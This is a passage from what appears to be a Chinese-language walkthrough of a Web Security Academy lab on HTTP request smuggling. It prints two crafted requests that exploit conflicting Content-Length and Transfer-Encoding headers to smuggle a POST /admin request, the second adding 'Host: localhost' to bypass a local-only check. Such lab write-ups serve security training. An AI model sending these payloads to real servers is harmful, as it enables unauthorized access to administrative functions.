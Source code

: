 [![](assets/1704418275-450d0ac910b7ed283ec2408b35b7c92b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155408-462df67a-aa0d-1.png)  
随后构造以下请求走私载荷并发送两次请求

```plain
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-04aafacab83005754bd33803f04d3e01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155433-54f3054c-aa0d-1.png)  
可以看到和上面的一个靶场一样，都需要本地访问，随后直接增加头部信息即可

```plain
POST / HTTP/1.1
Host: 0aa2009b039439b080a5fd6a00dd00a4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
